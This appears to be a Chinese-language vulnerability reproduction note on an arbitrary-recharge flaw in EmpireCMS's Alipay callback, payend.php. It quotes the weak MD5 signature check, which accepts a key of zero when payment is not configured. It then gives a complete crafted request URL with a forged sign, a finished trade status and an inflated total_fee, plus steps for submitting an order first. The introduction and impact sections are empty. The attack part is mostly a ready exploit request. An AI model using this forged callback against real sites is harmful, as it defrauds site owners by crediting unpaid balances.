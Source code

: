 # EmpireCMS 任意充值漏洞


## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

漏洞文件

> https://www.baidu.com/EmpireCMS/upload/e/payapi/alipay/payend.php

漏洞详情

首先在`/e/payapi/alipay/payend.php`

```php
$sign='';

foreach($_GET AS $key=>$val)

{

if($key!='sign'&&$key!='sign_type'&&$key!='code')

{

$sign.="$key=$val&";

}

}

$sign=md5(substr($sign,0,-1).$paykey);

print($sign);

if($sign!=$_GET['sign'])

{

printerror('验证MD5签名失败.','../../../',1,0,1);

```

这个是sign签名的验证没有检测来源是否为支付宝链接而且没有安装情况下key为0

所以我们可以自己构造sign

```
https://www.baidu.com/EmpireCMS/upload/e/payapi/alipay/payend.php?sign=63b90f066d744a4d53150045837bd90d&trade_status=TRADE_FINISHED&trade_no=1111&out_trade_no=aaaaaa&total_fee=11111111

```

`sign=63b90f066d744a4d53150045837bd90d`是get的数组的md5值

当然需要登录情况下还要自己手动在用户中心提交次订单，系统会设置cookie满足条件然后在到我们sign的地方

提交后

![](images/2020_07_08/15942230763637.jpg)

![](images/2020_07_08/15942230816484.jpg)


## 参考链接

> https://man-hin.lofter.com/post/37bd50_1c886dc36

